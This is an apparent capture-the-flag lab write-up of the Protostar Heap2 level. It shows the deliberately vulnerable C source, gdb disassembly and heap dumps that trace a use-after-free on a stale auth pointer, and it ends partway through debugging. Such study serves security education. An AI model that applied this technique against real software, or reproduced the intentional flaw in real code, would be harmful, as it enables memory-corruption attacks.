#### 23. The Heap: How do use-after-free exploits work?

###### Protostar Heap2

- About
	- This level examines what can happen when heap pointers are stale.
	- This level is completed when you see the "you have logged in already!" message
	- This level is at `/opt/protostar/bin/heap2`

- `heap2.c`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;
      
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```

```sh
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth admin
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
service hack
[ auth = 0x804c008, service = 0x804c008 ]
^C
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ man strdup
```





```sh
user@protostar:/opt/protostar/bin$ gdb ./heap2 -q
Reading symbols from /opt/protostar/bin/heap2...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048934 <main+0>:	push   ebp
0x08048935 <main+1>:	mov    ebp,esp
0x08048937 <main+3>:	and    esp,0xfffffff0
0x0804893a <main+6>:	sub    esp,0x90
0x08048940 <main+12>:	jmp    0x8048943 <main+15>
0x08048942 <main+14>:	nop
0x08048943 <main+15>:	mov    ecx,DWORD PTR ds:0x804b5f8
0x08048949 <main+21>:	mov    edx,DWORD PTR ds:0x804b5f4
0x0804894f <main+27>:	mov    eax,0x804ad70
0x08048954 <main+32>:	mov    DWORD PTR [esp+0x8],ecx
0x08048958 <main+36>:	mov    DWORD PTR [esp+0x4],edx
0x0804895c <main+40>:	mov    DWORD PTR [esp],eax
0x0804895f <main+43>:	call   0x804881c <printf@plt>
0x08048964 <main+48>:	mov    eax,ds:0x804b164
0x08048969 <main+53>:	mov    DWORD PTR [esp+0x8],eax
0x0804896d <main+57>:	mov    DWORD PTR [esp+0x4],0x80
0x08048975 <main+65>:	lea    eax,[esp+0x10]
0x08048979 <main+69>:	mov    DWORD PTR [esp],eax
0x0804897c <main+72>:	call   0x80487ac <fgets@plt>
0x08048981 <main+77>:	test   eax,eax
0x08048983 <main+79>:	jne    0x8048987 <main+83>
0x08048985 <main+81>:	leave
0x08048986 <main+82>:	ret
0x08048987 <main+83>:	mov    DWORD PTR [esp+0x8],0x5
0x0804898f <main+91>:	mov    DWORD PTR [esp+0x4],0x804ad8d
0x08048997 <main+99>:	lea    eax,[esp+0x10]
0x0804899b <main+103>:	mov    DWORD PTR [esp],eax
0x0804899e <main+106>:	call   0x804884c <strncmp@plt>
0x080489a3 <main+111>:	test   eax,eax
0x080489a5 <main+113>:	jne    0x8048a01 <main+205>
0x080489a7 <main+115>:	mov    DWORD PTR [esp],0x4
0x080489ae <main+122>:	call   0x804916a <malloc>
0x080489b3 <main+127>:	mov    ds:0x804b5f4,eax
0x080489b8 <main+132>:	mov    eax,ds:0x804b5f4
0x080489bd <main+137>:	mov    DWORD PTR [esp+0x8],0x4
0x080489c5 <main+145>:	mov    DWORD PTR [esp+0x4],0x0
0x080489cd <main+153>:	mov    DWORD PTR [esp],eax
0x080489d0 <main+156>:	call   0x80487bc <memset@plt>
0x080489d5 <main+161>:	lea    eax,[esp+0x10]
0x080489d9 <main+165>:	add    eax,0x5
0x080489dc <main+168>:	mov    DWORD PTR [esp],eax
0x080489df <main+171>:	call   0x80487fc <strlen@plt>
0x080489e4 <main+176>:	cmp    eax,0x1e
0x080489e7 <main+179>:	ja     0x8048a01 <main+205>
0x080489e9 <main+181>:	lea    eax,[esp+0x10]
0x080489ed <main+185>:	lea    edx,[eax+0x5]
0x080489f0 <main+188>:	mov    eax,ds:0x804b5f4
0x080489f5 <main+193>:	mov    DWORD PTR [esp+0x4],edx
0x080489f9 <main+197>:	mov    DWORD PTR [esp],eax
---Type <return> to continue, or q <return> to quit---
0x080489fc <main+200>:	call   0x804880c <strcpy@plt>
0x08048a01 <main+205>:	mov    DWORD PTR [esp+0x8],0x5
0x08048a09 <main+213>:	mov    DWORD PTR [esp+0x4],0x804ad93
0x08048a11 <main+221>:	lea    eax,[esp+0x10]
0x08048a15 <main+225>:	mov    DWORD PTR [esp],eax
0x08048a18 <main+228>:	call   0x804884c <strncmp@plt>
0x08048a1d <main+233>:	test   eax,eax
0x08048a1f <main+235>:	jne    0x8048a2e <main+250>
0x08048a21 <main+237>:	mov    eax,ds:0x804b5f4
0x08048a26 <main+242>:	mov    DWORD PTR [esp],eax
0x08048a29 <main+245>:	call   0x804999c <free>
0x08048a2e <main+250>:	mov    DWORD PTR [esp+0x8],0x6
0x08048a36 <main+258>:	mov    DWORD PTR [esp+0x4],0x804ad99
0x08048a3e <main+266>:	lea    eax,[esp+0x10]
0x08048a42 <main+270>:	mov    DWORD PTR [esp],eax
0x08048a45 <main+273>:	call   0x804884c <strncmp@plt>
0x08048a4a <main+278>:	test   eax,eax
0x08048a4c <main+280>:	jne    0x8048a62 <main+302>
0x08048a4e <main+282>:	lea    eax,[esp+0x10]
0x08048a52 <main+286>:	add    eax,0x7
0x08048a55 <main+289>:	mov    DWORD PTR [esp],eax
0x08048a58 <main+292>:	call   0x804886c <strdup@plt>
0x08048a5d <main+297>:	mov    ds:0x804b5f8,eax
0x08048a62 <main+302>:	mov    DWORD PTR [esp+0x8],0x5
0x08048a6a <main+310>:	mov    DWORD PTR [esp+0x4],0x804ada1
0x08048a72 <main+318>:	lea    eax,[esp+0x10]
0x08048a76 <main+322>:	mov    DWORD PTR [esp],eax
0x08048a79 <main+325>:	call   0x804884c <strncmp@plt>
0x08048a7e <main+330>:	test   eax,eax
0x08048a80 <main+332>:	jne    0x8048942 <main+14>
0x08048a86 <main+338>:	mov    eax,ds:0x804b5f4
0x08048a8b <main+343>:	mov    eax,DWORD PTR [eax+0x20]
0x08048a8e <main+346>:	test   eax,eax
0x08048a90 <main+348>:	je     0x8048aa3 <main+367>
0x08048a92 <main+350>:	mov    DWORD PTR [esp],0x804ada7
0x08048a99 <main+357>:	call   0x804883c <puts@plt>
0x08048a9e <main+362>:	jmp    0x8048943 <main+15>
0x08048aa3 <main+367>:	mov    DWORD PTR [esp],0x804adc3
0x08048aaa <main+374>:	call   0x804883c <puts@plt>
0x08048aaf <main+379>:	jmp    0x8048943 <main+15>
End of assembler dump.
(gdb) r
Starting program: /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth admin
[ auth = 0x804c008, service = (nil) ]
^C
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	../sysdeps/unix/syscall-template.S: No such file or directory.
	in ../sysdeps/unix/syscall-template.S
Current language:  auto
The current source language is "auto; currently asm".
(gdb) info proc mappings
process 13028
cmdline = '/opt/protostar/bin/heap2'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap2'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x804b000     0x3000          0       /opt/protostar/bin/heap2
	 0x804b000  0x804c000     0x1000     0x3000       /opt/protostar/bin/heap2
	 0x804c000  0x804d000     0x1000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fde000 0xb7fe2000     0x4000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) x/20wx 0x804c000
0x804c000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) print auth
$1 = (struct auth *) 0x804c008
(gdb) print *auth
$2 = {name = "admin\n\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
(gdb) print service
$3 = 0x0
(gdb) break *0x0804895f
Breakpoint 1 at 0x804895f: file heap2/heap2.c, line 20.
(gdb) command
Type commands for when breakpoint 1 is hit, one per line.
End with a line saying just "end".
>echo ----------------------------------------------------------------------------------------------------------------\n
>x/20wx 0x804c000
>echo --------------auth----------------------------------------------------------------------------------------------\n
>print *auth
>echo --------------service-------------------------------------------------------------------------------------------\n
>print service
>echo ----------------------------------------------------------------------------------------------------------------\n
>continue
>end
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap2

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	heap2/heap2.c: No such file or directory.
	in heap2/heap2.c
Current language:  auto
The current source language is "auto; currently c".
----------------------------------------------------------------------------------------------------------------
0x804c000:	Cannot access memory at address 0x804c000
(gdb) c
Continuing.
[ auth = (nil), service = (nil) ]
auth admin

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$4 = {name = "admin\n\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--------------service-------------------------------------------------------------------------------------------
$5 = 0x0
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = (nil) ]
^C
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	../sysdeps/unix/syscall-template.S: No such file or directory.
	in ../sysdeps/unix/syscall-template.S
Current language:  auto
The current source language is "auto; currently asm".
(gdb) set pagination off
(gdb) c
Continuing.


Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	heap2/heap2.c: No such file or directory.
	in heap2/heap2.c
Current language:  auto
The current source language is "auto; currently c".
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$6 = {name = "admin\n\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--------------service-------------------------------------------------------------------------------------------
$7 = 0x0
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = (nil) ]
```











```sh
reset

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x00000000	0x00000a6e
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$8 = {name = "\000\000\000\000n\n\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--------------service-------------------------------------------------------------------------------------------
$9 = 0x0
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = (nil) ]
```







```sh
service AAA

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
